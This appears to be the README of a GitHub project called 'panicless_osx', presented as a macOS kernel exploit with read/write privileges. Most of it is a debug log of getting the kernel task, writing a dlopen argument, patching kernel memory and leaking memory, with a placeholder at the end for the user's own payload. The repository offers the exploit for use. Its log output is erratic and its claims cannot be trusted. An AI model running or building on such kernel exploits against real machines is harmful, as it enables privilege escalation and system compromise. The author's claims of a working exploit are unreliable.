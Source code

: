 # panicless_osx
This exploit is working with r/w privilige exc. but needs fix on reading mem/leak side due its abit buggy.

## debug
[panicless_osx] lets move in the dangly sketchy exploit
<br />
[panicless_osx] getting kernel task.
<br />
[panicless_osx] writing argument to dlopen.
<br />
[+] done!
<br />
[panicless_osx] exploring fake kernel_task abilities
<br />
[exploit] kernel_task (os/kern) successful
<br />
[+] kernel_task -> 0x1048835
<br />
[+] (read/kern) orig where:0x1056768 -> val 16
<br />
[+] (read/kern) patched where:0x1056768 -> val -272633096
<br />
[+] (read/kern) orig where:0x8192 -> val -272633088
<br />
[+] (read/kern) patched where:0x8192 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x4919 ->
<br />
info: nil
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x9015 ->
<br />
info: nil
<br />
[panicless_osx] fun part here (lets have some fun?)
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 8
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16778272 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) orig where:0x13443 -> val 16
<br />
[+] (read/kern) patched where:0x13443 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
[*] wefun -> 0x16
<br />
[*] wefun_pac -> 0x16777215
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_orig -> 16
<br />
[+] (read/kern) orig where:0x16777231 -> val 16
<br />
[+] (read/kern) patched where:0x16777231 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_patched -> 16
<br />
[panicless_osx] ADD YOUR STUFF HERE
<br />
Program ended with exit code: 0
